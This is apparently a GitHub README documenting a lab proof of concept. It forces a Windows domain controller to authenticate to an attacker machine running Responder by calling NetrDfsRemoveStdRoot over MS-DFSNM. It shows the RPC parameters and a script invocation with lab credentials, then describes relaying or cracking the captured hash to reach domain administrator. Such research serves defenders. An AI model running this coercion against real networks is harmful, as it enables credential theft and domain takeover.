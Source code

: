 # MS-DFSNM - Remote call to NetrDfsRemoveStdRoot (opnum 13)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

 - **Protocol version**: 3.0

 - **Function name**: [`NetrDfsRemoveStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18)

 - **Function operation number**: `13`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\netdfs` and bind to the endpoint (uuid `4fc742e0-4a10-11cf-8273-00aa004ae673`, version `3.0`) in order to perform calls to RPC functions of the `MS-DFSNM` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named \PIPE\netdfs. This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. It will then call the remote [`NetrDfsRemoveStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsRemoveStdRoot('192.168.2.51\x00', 'test\x00', 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
NET_API_STATUS NetrDfsRemoveStdRoot(
    [in, string] WCHAR* ServerName,
    [in, string] WCHAR* RootShare,
    [in] DWORD ApiFlags
);
```

 - **ServerName**: The pointer to a null-terminated Unicode string. This is the host name of the DFS root target to be removed.

 - **RootShare**: The pointer to a null-terminated Unicode DFS root target share name string. This is also the DFS namespace name. The share is not removed automatically when the method is successful; it MUST be removed explicitly, as needed.

 - **ApiFlags**: This parameter is reserved for future use and is ignored by the server.

## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

 - Documentation of function `NetrDfsRemoveStdRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18